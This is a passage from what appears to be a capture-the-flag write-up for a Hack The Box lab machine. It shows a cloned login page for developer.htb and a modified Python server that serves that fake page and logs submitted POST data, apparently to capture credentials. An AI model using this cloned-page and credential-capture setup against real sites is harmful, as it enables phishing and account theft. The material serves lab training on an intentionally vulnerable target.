 ```html

    <!-- Custom styles for this template -->
    <link href="http://developer.htb/static/css/signin.css" rel="stylesheet">
  </head>

  <body class="text-center">
 
    <form class="form-signin" action="/accounts/login/" method="post">
    	<input type="hidden" name="csrfmiddlewaretoken" value="ubT8nig7GmJ0BSakA34ejZQ3xgpepwDpt8Qa8oFtufmuFCPOqCYPOtqHGtxsxzIV">
      <img class="mb-4" src="http://developer.htb/static/img/logo.png" alt="" width="72" height="72">
      <h1 class="h3 mb-3 font-weight-normal">Welcome back!</h1>
      <label for="uname" class="sr-only">User Name</label>
      <input type="text" id="id_login" name="login" placeholder="Username" class="form-control" required autofocus>
      <label for="password" class="sr-only">Password</label>
      <input type="password" id="id_password" name="password" placeholder="Password" class="form-control" required>

      
      <button id="loginbtn" class="btn btn-lg btn-primary btn-block" type="submit">Sign in</button>
          <a href="http://developer.htb/accounts/password/reset/" class="auth-link">Forgot password?</a>
		<div class="text-center mt-4 font-weight-light"> Don't have an account? <a href="http://developer.htb/accounts/signup/" >Click here!</a>      
      <p class="mt-5 mb-3 text-muted">&copy; Developer.HTB 2021</p>
    </form>

<script src="http://developer.htb/static/js/jquery.toast.js"></script> 
<script>


</script>
  </body>
</html>
```

then we need a python server who can receive and print POST requests, i used this one from here: https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7

and tuned it that it is also providing files from the get method

```python
def do_GET(self):
        logging.info("GET request,\nPath: %s\nHeaders:\n%s\n", str(self.path), str(self.headers))
        self._set_response()
        if self.path == "/accounts/login/":
            f = open("index.html", "r")
        else:
            f = open(self.path.replace("/",""), "r")
        self.wfile.write(f.read().encode('utf-8'))
        #self.wfile.write("GET request for {}".format(self.path).encode('utf-8'))

```
